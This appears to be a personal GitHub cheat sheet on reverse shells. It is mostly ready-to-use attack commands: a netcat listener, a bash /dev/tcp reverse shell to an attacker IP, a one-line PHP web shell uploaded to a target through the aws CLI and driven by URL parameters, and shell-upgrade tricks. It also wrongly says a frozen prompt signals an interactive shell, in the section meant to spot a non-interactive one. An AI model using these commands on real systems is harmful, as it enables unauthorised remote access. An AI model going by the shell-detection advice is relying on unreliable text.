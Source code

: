 # Description
This file lists everything I know about reverse shells and how to use them.

# Create a reverse shell
#### Description
How to create a reverse shell through bash/Linux terminal commands
### What are reverse shells used for?
Reverse shells are often used for gaining remote access to a system. Reverse shells require a listener on your attacking machine, and then you need to execute a command on the target machine that connects back to your listener, granting you access to the target machine's shell.
### How to create a reverse shell using ```bash```
1. ```nc -lvnp 4444```: use ```netcat``` to create a listener on port ```4444```
    a. Other port numbers can be used as well, select the number that works for you 
2. ```bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1```: use ```bash``` to start an interactive shell
### How to create a reverse shell using ```aws``` and ```php```
1. ```nano shell.php```
    a. Use the code editor to write a piece of code in PHP, such as:
   ```<? php system($_GET['cmd']); ?>```
2. ```cat shell.php```: check for ```shell.php```
3. ```aws s3 cp --endpoint-url=http://<target_url> shell.php s3://<target_url_w/o_extensions>```: upload ```shell.php``` to target
4. go to web browser, enter URL ```http://<target_url>/shell.php?cmd=ls```: execute ```ls``` command in web browser

# Upgrade your shell
#### Description
How to upgrade a non-interactive shell (reverse shell) to a fully interactive one
### How do I know if I'm in a non-interactive shell?
You're probably in an interactive shell if you've tried to execute a MySQL prompt and the program froze.
### How to upgrade your shell
1. ```python3 -c 'import pty; pty.spawn("/bin/bash")'```
2. ```stty raw -echo; fg```
3. ```script /dev/null -c bash```

